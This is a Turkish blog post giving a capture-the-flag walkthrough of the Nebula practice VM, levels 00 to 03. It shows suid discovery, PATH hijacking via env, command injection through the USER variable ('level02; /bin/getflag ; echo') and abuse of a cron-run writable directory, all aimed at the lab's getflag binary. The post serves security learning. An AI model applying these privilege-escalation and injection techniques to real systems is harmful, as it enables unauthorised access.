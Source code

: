 ```yaml
---
layout: post
title: "Nebula Write Up-1"
date: 2018-02-26
excerpt: "[Level 00-Level 04]"
comments: false
---
```

  Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.

### Level 00

Bu level için bizden beklenen flag00 kullanıcısına ait, suid bitine sahip olan, çalıştırılabilir bir dosya bulmamız. 

{% raw %}
    level00@nebula:~$ find / -type f -user flag00 -perm -u=s 2>/dev/null
    /bin/.../flag00
    /rofs/bin.../flag00
{% endraw %}
Dosyaları incelediğimizde ELF türünde olduklarını görüyoruz. Dosyalardan birini çalıştırdığımızda,
{% raw %}
    level00@nebula:~$ /bin/.../flag00
    Congrats, now run getflag to get your flag !
    flag00@nebula:~$
{% endraw %}
flag değerini elde edebilmek için getflag dosyasını çalıştırmamız gerektiği bilgisine erişiyoruz.
{% raw %}
    flag00@nebula:~$ find / -name getflag
    /bin/getflag
    /rofs/bin/getflag
    flag00@nebula:~$ /bin/getflag
    You have successfully executed getflag on a target account
{% endraw %}

### Level 01

Bu bölümde bizden beklenen /home/flag01 dizini altında bulunan c programında, istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmamız.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
     gid_t gid;
     uid_t uid;
     gid = getegid();
     uid = geteuid();

     setresgid(gid, gid, gid);
     setresuid(uid, uid, uid);

     system("/usr/bin/env echo and now what?");
    }
{% endraw %}
{% endhighlight %}

Programın işleyişini daha iyi anlayabilmek adına, kaynak kodda bulunan bazı fonksiyonlara bakalım.

> **gid_t getegid(void);**  çağırılan processin effective group-id değerini döndürüyor. 

> **uid_t geteuid(void);**  çağırılan processin effective user-id değerini döndürüyor. 

> **int setresgid(gid_t rgid,gid_t egid,git_t sgid);**  çağırılan processin real,effective,saved  group-id değerlerini set ediyor. 

> **int setresuid(uid_t ruid,uid_t euid,uid_t suid);**  çağırılan processin real,effective,saved user-id değerlerini set ediyor. 

`Effective uid/gid` ve `real uid/gid` kavramları arasındaki farkı da şu şekilde özetleyebiliriz:
> Shell login işlemi gerçekleştiğinde real uid/gid  ile effective uid/gid değerleri aynıdır, ve processi yaratan kullanıcının uid/gid'sine karşılık gelir. Effective uid/gid değeri; suid bitine sahip olan bir dosya çalıştırıldığında ve dosya sahibi ile dosyayı çalıştıran kullanıcı farklı olduğu durumlarda değişir. Dosya sahibinin uid/gid'sine karşılık gelir. Özet olarak real uid/gid processi yaratan kullanıcının uid/gid değerine eşitken, effective uid/gid dosya sahibinin uid/gid değerine eşit olur.

Aşina olmadığımız fonksiyonlar hakkında fikir sahibi olduktan sonra, asıl meseleye geri dönelim.Programı çalıştırdığımızda beklenen üzere bu şekilde bir çıktı elde ediyoruz.
{% raw %}
    level01@nebula:/home/flag01$ ./flag01
    and now what?
{% endraw %}
Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir şey elde edemiyoruz. Manipüle edilebilir gibi görünen system() fonksiyonu üzerinden yürümeyi deniyoruz.Burada dikkatimizi çeken echo komutunun önünde bulunan /usr/bin/env komutu.
> `/usr/bin/env` komutu, programı değiştirilmiş bir ortamda çalıştırmayı sağlar. Bunun için PATH değişkeninde bulunan dizinlere sırası ile bakılır. Çalıştırılmak istenen program ilk hangi dizinde bulunursa, o dizindeki program çalıştırılır.

> `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.

Bizde PATH değişkenine yeni bir dizin ekleyip,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydettiğimizde, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
{% raw %}
    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
    level01@nebula:/home/flag01$ ./flag01
    You have successfully executed getflag on a target account
{% endraw %}

### Level 02
Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizininde bulunan programda,istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmak.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endraw %}
{% endhighlight %}
Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02 is cool")
    level02 is cool
{% endraw %}
Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
{% raw %}
    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
    level02@nebula:/home/flag02$ echo $USER
    level02; /bin/getflag ; echo
{% endraw %}
Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
    level02
    You have successfully executed getflag on a target account
    is cool
{% endraw %}

### Level 03
/home/flag03 dizininde birtakım dosyaların var olduğu ve her iki dakikada bir çağırılan bir crontab bulunduğu bilgisi verilmiş.Leveli tamamlayabilmek için flag03 kullanıcısı ile getflag dosyasının çalıştırılması gerektiğini biliyoruz.
{% raw %}
    level03@nebula:/home/flag03$ file *
    writable.d: directory
    writable.sh: POSIX shell script text executable
    level03@nebula:/home/flag03$ cat writable.sh
    #!/bin/bash
     
    for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5 ; bash -x "$i")
        rm -f "$i"
    done
{% endraw %}
Script özetle, writable.d dizininde bulunan bash script dosyalarını çalıştırıp ardından siliyor.
> `ulimit` komutu, sistem kaynaklarının hangi ölçülerde kullanıldığının istatistiğini verir ve bunları sınırlamayı sağlar.
-t parametresi ile de kaynağın, her bir process tarafından kullanılabileceği saniye sayısı belirtilmiş.

Cronun hangi kullanıcı için yazıldığını öğrenmeye çalışıyoruz.
{% raw %}
     level03@nebula:/home/flag03$ crontab -l
     no crontab for level03
     level03@nebula:/home/flag03$ crontab -u flag03 
     must be privileged to use -u
{% endraw %}
Farklı bir yol deneyip, /tmp dizini içerisinde dosya oluşturan bir script yazıyoruz. Cron çalıştıktan sonra  /tmp dizininde oluşan dosyanın sahibini kontrol ediyoruz. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "touch /tmp/test" > test.sh
     level03@nebula:/home/flag03/writable.d$ cd /tmp
     level03@nebula:/tmp$ ls -l
     -rwxrwxr-x 2 flag03 flag03 40 2018-02-26 14:18 test
{% endraw %}
Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "/bin/getflag > /tmp/output " > getflag.sh
     level03@nebula:/home/flag03/writable.d$ cd /tmp
     level03@nebula:/tmp$ ls
     output test
     level03@nebula:/tmp$ cat output
     You have successfully executed getflag on a target account
{% endraw %}

